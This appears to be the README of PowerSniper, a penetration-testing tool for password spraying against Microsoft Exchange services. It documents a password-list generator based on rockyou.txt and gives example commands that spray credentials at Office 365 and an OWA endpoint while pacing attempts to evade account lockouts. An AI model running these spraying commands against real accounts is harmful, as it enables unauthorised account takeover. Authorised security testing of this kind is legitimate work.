 # PowerSniper
Password spraying script and helper for creating password lists.

The Python script uses configurable parameters to extract complex passwords from a password list such as rockyou.txt.  It then analyzes the Damerau-Levenshtein distance between that password and a list of common passwords (the text file in this repository is the top 20 most common rockyou passwords that could be easily modified to be a complex password, i.e. not the one's that are all digits).  The script is configurable for the maximum distance to keep a password, with a default of 4, and will output results to a CSV file.

The PowerShell script loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.  The script supports pausing after a specified lockout count for a specified period of time to prevent account lockouts.

Requirements
============
passdist.py requires jellyfish

Usage
=====
<pre>
usage: rockdist.py [-h] --wordlist WORDLIST --toplist TOPLIST [--output OUTPUT] [--passmin PASSMIN] 
                        [--passmax PASSMAX] [--complex] [--passdist PASSDIST]
                        
  Get the distances between complex passwords and top passwords used

  optional arguments:  
    -h, --help           show this help message and exit  
    --wordlist WORDLIST  the file with the complex rockyou passwords (default: None)  
    --toplist TOPLIST    the file with the top rockyou passwords (default: None)  
    --output OUTPUT      the CSV output of the analysis (default: analysis.csv)  
    --passmin PASSMIN    the minimum size password to choose from (default: 7)  
    --passmax PASSMAX    the maximum size password to choose from (default: 12)  
    --complex            require complex passwords (default: 0)  
    --passdist PASSDIST  the maximum distance between passwords to keep (default: 4)
</pre>

Example passdist.py command:
<pre>
    python passdist.py --wordlist rockyou.txt --toplist toplist_rockyou.txt --output lowdist.csv --passmin 7 --passmax 12 --complex --passdist 4
</pre>

<pre>
NAME    
  Invoke-PowerSniper
SYNOPSIS    
  This module loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.
    PowerSniper Function: Invoke-PowerSniper    
    Author: Josh Berry (@codewatchorg)    
    License: BSD 3-Clause    
    Required Dependencies: None    
    Optional Dependencies: None

SYNTAX    
  Invoke-PowerSniper [[-uri] <Object>] [[-svc] <Object>] [[-userlist] <Object>] [[-passlist] <Object>] [[-sos] <Object>] [[-lockout] <Object>] [[-locktime]    <Object>] [<CommonParameters>]

DESCRIPTION    
  This module loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.  The script supports pausing after a specified lockout count for a specified period of time to prevent account lockouts.

RELATED LINKS    
  https://blogs.technet.microsoft.com/meamcs/2015/03/06/powershell-script-to-simulate-outlook-web-access-url-user-logon/
  http://mobilitydojo.net/2010/03/30/rolling-your-own-exchange-activesync-client/
  http://mobilitydojo.net/2011/08/24/exchange-activesync-building-blocks-first-sync/
  http://mobilitydojo.net/files/EAS_BB/Part_02/HTTP_GET.cs
  https://blogs.technet.microsoft.com/heyscriptingguy/2011/12/02/learn-to-use-the-exchange-web-services-with-powershell/
  http://stackoverflow.com/questions/1582285/how-to-remove-elements-from-a-generic-list-while-iterating-over-it
  https://github.com/dafthack/MailSniper
</pre>
Example PowerSniper.ps1 usage:
<pre>
    # Outlook Anywhere Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc oa -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
    
    # ActiveSync Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc as -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
    
    # Outlook Web Access Test
    Invoke-PowerSniper -uri https://mail.victim.com/owa/auth.owa -svc owa -userlist users.txt -passlist passwords.txt -sos false -lockout 6 -locktime 30
</pre>
